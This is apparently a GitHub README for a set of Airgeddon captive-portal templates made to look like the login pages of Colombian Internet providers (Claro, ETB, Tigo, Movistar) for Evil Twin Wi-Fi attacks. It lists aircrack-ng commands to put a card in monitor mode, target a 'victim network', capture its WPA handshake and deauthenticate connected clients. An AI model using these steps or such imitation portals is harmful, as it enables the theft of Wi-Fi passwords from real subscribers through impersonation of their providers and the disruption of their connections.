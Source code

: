 # Airgeddon-Custom-Captive-Portal-Templates
Github repo from YouTube tutorial about customizing Airgeddon's Captive Portal template.

YouTube Video: https://youtu.be/M0TMHRuA2To

It's recommended to previously have captured the handshake as Airgeddon only gives 100 seconds tops to do this. Also, to take note of the MAC address of the network to update it in the check.htm file.

1. airmon-ng start wlan0 (Enable monitor mode)
2. airodump-ng wlan0mon (Listen to all networks. Jot down the BSSID and channel the network is in)
3. airodump-ng --bssid [MAC] --channel 1 -w wpa_log wlan0mon (Listen only to the victim network, capturing the handshake)

* It may be necessary to de-authenticate the clients for them to connect again and grab the handshake.
aireplay-ng --deauth 20 -a [MAC] wlan0mon
If -c [client] is specified, only that mac's user device will be de-authenticated.

###################################################################################################################################

ENG:  This is not mine, I actually edited the templates of this video: (https://youtu.be/M0TMHRuA2To) all credit goes to him.
      This repository is an edition of the HTML and CSS code to be similar to that of some Colombian Internet providers,
      when trying to make an Evil Twin attack with a captivating portal through Airgeddon.
      I hope to add more templates to the list over time.

ESP:  Esto no es mío, Realmente edite las plantillas de este video: (https://youtu.be/M0TMHRuA2To) todo el crédito es para él.
      Este repositorio es una edicion del código HTML y CSS para que sea similar al de algunos proveedores de Internet colombianos,
      cuando se esta intentando hacer un ataque de Evil Twin con portal captativo por medio de Airgeddon.
      Espero agregar más plantillas a la lista con el tiempo.

###################################################################################################################################

List \\ Lista:
-claro
-ETB
-Tigo
-Movistar
